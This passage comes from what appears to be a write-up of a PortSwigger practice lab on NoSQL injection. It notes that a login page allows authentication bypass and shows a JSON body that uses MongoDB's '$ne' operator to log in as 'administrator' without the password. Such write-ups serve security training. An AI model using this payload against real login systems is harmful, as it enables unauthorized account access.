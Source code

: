 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009142652.png)

It redirected us to the profile page! Which means **the login page is vulnerable to authentication bypass via MongoDB operator injection!**

## Exploitation

**Let's try the same thing but with username `administrator`!**
```json
{
    "username": "administrator",
    "password":{
        "$ne": "foobar"
    }
}
```

